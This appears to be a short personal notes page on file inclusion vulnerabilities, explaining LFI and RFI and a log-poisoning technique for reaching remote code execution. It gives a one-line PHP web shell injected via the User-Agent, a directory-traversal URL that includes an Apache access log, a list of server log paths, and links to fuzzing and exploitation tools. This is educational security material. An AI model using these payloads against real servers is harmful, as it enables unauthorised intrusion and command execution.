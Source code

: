 ```yaml
---
title: Notes | File Inclusion
author: Stillwolfing
date: 2023-04-23
categories: [Notes, File Inclusion]
tags: [Web, File Inclusion]
permalink: /Notes/Web/lfi
---
```



## LFI / RFI

File inclusion occurs when the user can control the file that will be loaded by the server.

LFI (Local File Inclusion) -> The server loads a local file.

RFI (Remote File Inclusion) -> The server loads a file located on a remote server.


## Log Poisoning

### How does this work?

Let's imagine that the website is using PHP and you can control the file that is being loaded (LFI). You want to be able to execute php code to gain RCE.

You replace your User-Agent by a malicious PHP code. So, when you display the log file, your User-Agent will appear and the code will be executed.

### Example:

User-Agent:
```
<?php system($_GET['cmd']); ?>
```

Url :

http://site.com/test.php?view=../../../../../var/log/apache2/access.log?cmd=ls

Here the output of the "ls" command is display on the screen.

Possible log files:
```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

### LFI lists for fuzzing:
- https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

### Tools:
- https://github.com/takabaya-shi/LFI2RCE









